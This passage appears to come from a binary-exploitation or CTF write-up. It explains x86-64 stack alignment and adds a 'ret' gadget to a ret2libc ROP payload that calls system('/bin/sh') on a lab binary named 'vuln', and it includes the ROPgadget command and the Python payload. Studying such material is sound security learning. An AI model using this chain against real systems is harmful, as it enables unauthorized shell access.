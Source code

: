 > The stack pointer (`%rsp`) must be 16-byte aligned before any function call.

If `%rsp` is not aligned (e.g., the last digit of its address is not `0`), calling `system()` (or other libc functions) may cause a **segmentation fault (SIGSEGV)**.

#### Fix: Insert a `ret` gadget

Find a simple `ret` instruction using ROPgadget:

```bash
ROPgadget --binary vuln | grep ": ret"
```

Suppose it returns `0x40052e`, then we update the payload like this:

```python
ret_instruction = 0x40052e  # Single ret for alignment

second_payload = [
    junk,
    p64(pop_rdi),             # 8 bytes
    p64(bin_sh_address),      # 8 bytes

     # At this point, we've added 136 + 8 + 8 = 152 bytes total,
     # so %rsp ends in ...f8 (not aligned to 16 bytes).
   
    p64(ret_instruction),     # it pops an extra 8 bytes
                              # moving %rsp from ...f8 to ...00 (properly aligned)
    p64(system_address),
]
```

#### Results

Now, with proper stack alignment, the call to `system("/bin/sh")` works as expected, and you get a shell! 

![interactive shell](images/image-9.png)<br>
*Figure 8: Interactive shell.*
